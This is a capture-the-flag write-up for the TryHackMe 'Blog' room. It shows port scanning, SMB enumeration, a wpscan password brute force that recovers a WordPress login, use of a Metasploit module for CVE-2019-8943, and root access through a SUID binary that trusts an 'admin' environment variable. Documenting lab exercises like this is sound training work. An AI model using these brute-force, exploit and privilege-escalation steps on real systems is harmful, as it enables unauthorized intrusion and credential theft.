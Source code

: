 # 35 - Anonymous (ltrace / strace) to enumerate SUID binaries

Room Link --> [https://tryhackme.com/room/blog](https://tryhackme.com/room/blog)

### Enumeration

{% code overflow="wrap" lineNumbers="true" %}
```bash
sudo nmap -Pn -n -T5 -p- -sS -vv 10.10.37.166

PORT    STATE SERVICE     REASON  VERSION
22/tcp  open  ssh         syn-ack OpenSSH 7.6p1 Ubuntu 4ubuntu0.3
80/tcp  open  http        syn-ack Apache httpd 2.4.29 ((Ubuntu))
139/tcp open  netbios-ssn syn-ack Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
445/tcp open  netbios-ssn syn-ack Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
```
{% endcode %}

_In order to get the blog to work with AWS, you'll need to add "blog.thm" to your /etc/hosts file._

<figure><img src=".gitbook/assets/image (5) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

Checking the Page source code we get 2 usernames : Billy and his Mom.

```
bjoel
kwheel
```

#### SMB enum

{% code overflow="wrap" lineNumbers="true" %}
```bash
smbmap -H blog.thm -u 'anonymous' -p 'anonymous'

print$       NO ACCESS	  Printer Drivers
BillySMB     READ, WRITE  Billy's local SMB Share
IPC$         NO ACCESS	  IPC Service (blog server (Samba, Ubuntu))

# we have RW access to the "BillySMB" share.
```
{% endcode %}

<figure><img src=".gitbook/assets/image (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

The images from the SMB file share were deadends, so since we have 2 usernames we can use wpscan to bruteforce for their login passwords.

#### wpscan

{% code overflow="wrap" lineNumbers="true" %}
```bash
wpscan --url http://blog.thm/wp-login.php --usernames kwheel --passwords /usr/share/wordlists/rockyou.txt
```
{% endcode %}

the WPScan was able to extract the credentials for the user kwheel. It was cutiepie1.

<figure><img src="https://i0.wp.com/1.bp.blogspot.com/-fSRqKS33MB0/YKpXlw6DvqI/AAAAAAAAwBQ/8QSDhRQU65UJ8Eacc_bn5fMs_ovxxMg7gCLcBGAsYHQ/s16000/8.png?w=640&#x26;ssl=1" alt=""><figcaption></figcaption></figure>

`kwheel : cutiepie1` .

Login to  wordpress. `version 5.0` .

<figure><img src=".gitbook/assets/image (2) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

### Initial Access

<figure><img src="https://miro.medium.com/v2/resize:fit:481/1*rf2EDb3asLwEe5Fp4OqnmQ.png" alt="" height="82" width="700"><figcaption></figcaption></figure>

There is an [exploit](https://www.exploit-db.com/exploits/49512) for uploading images for WordPress Core 5.0 (CVE-2019–8943). we also have a Metasploit Module for this.

`use exploit/multi/http/wp_crop_rce`&#x20;

<figure><img src=".gitbook/assets/image (3) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

### Priv Esc

`find / -perm -u=s -type f 2>/dev/null` .

<figure><img src="https://i0.wp.com/1.bp.blogspot.com/-9PLookrmx8E/YKpX7cj9jFI/AAAAAAAAwBw/c3_Wk84j9EgjlSvl15M80WrmYu0nLkkzwCLcBGAsYHQ/s16000/12.png?w=640&#x26;ssl=1" alt=""><figcaption></figcaption></figure>

Running `strings /usr/sbin/checker` - and we see it is executing `/bin/bash`.&#x20;

<figure><img src=".gitbook/assets/image (4) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

Running the file informs us that we are not admin users.

> /usr/sbin/checker

<figure><img src="https://miro.medium.com/v2/resize:fit:217/1*W8OiYcQCx1PqN2r6GHsdqg.png" alt="" height="71" width="316"><figcaption></figcaption></figure>

We can investigate the binary more by using either **strace** or **ltrace** as both is installed on the host.

> ltrace /usr/sbin/checker

<figure><img src="https://miro.medium.com/v2/resize:fit:349/1*JYG2x8FV2Vv_iMG56RvN0Q.png" alt="" height="82" width="508"><figcaption></figcaption></figure>

Based on the ltrace output it appears that the only check the application does is to check an environment variable called admin for a value, lets test this theory by adding a value to the admin environmental variable

> export admin=1

Now lets launch the ltrace process to check if we are successful.

> ltrace /usr/sbin/checker

<figure><img src="https://miro.medium.com/v2/resize:fit:343/1*71tMuxVEaDu6aVyde052Cw.png" alt="" height="64" width="499"><figcaption></figcaption></figure>

We can now see that the “admin” environment variable has a value of 1.

> /usr/sbin/checker

<figure><img src="https://miro.medium.com/v2/resize:fit:312/1*pSzfFiJddbjxEsF6zANgaA.png" alt="" height="103" width="454"><figcaption></figcaption></figure>

Done!

